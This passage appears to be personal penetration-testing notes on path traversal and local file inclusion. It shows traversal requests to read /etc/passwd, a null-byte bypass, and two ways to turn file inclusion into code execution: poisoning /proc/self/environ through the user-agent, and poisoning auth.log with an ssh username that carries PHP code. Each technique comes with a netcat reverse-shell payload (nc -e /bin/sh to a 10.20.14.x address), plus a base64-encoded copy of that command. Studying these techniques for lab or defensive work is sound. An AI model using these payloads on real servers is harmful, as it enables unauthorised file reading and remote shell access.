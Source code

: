 		/image?filename=/var/www/images/myimage.png

	We can modify the request like this:

		/image?filename=/var/www/images/../../../../../etc/passwd

- Nul byte termination attack (if the server looks like a specific file extendsion)

		/image?filename=/var/www/images/../../../../../etc/passwd%00.png

## Execute some code on the remote server with LFI
We can get a shell to the target by tricking these files.

### PROC/SELF/ENVIRON
The proc/self/environ contains information about the environment.

If we can access that file from LFI, than we can modify the user-agent request to execute some codes.

![image.png](../_resources/5522a2a21cfcad75639e1c3f083b761b.png)

- Example of payload  

		passthru("nc -e /bin/sh 10.20.14.9 2222");

### /VAR/LOG/AUTH.LOG or /VAR/LOG/APACHE2/ACCESS.LOG
It contains all the login attempts on the server.

- Access the `auth.log` file via LFI.
- Try to log in into the server. For example via `ssh.`
- Check the `auth.log` file again and look for the login attemp that we just made.
- Try to log in again but this time, we should put a malicious code instead of the username

		ssh "<?passthru('nc -e /bin/sh 10.20.14.2 2222');?>"@10.10.10.10

	For security reason and because there are a lot of space etc... we should encrypt the command in base 64.

			echo "nc -e /bin/sh 10.20.14.2 2222" | base64
			bmMgLWUgL2Jpbi9zaCAxMC4yMC4xNC4yIDIyMjIK
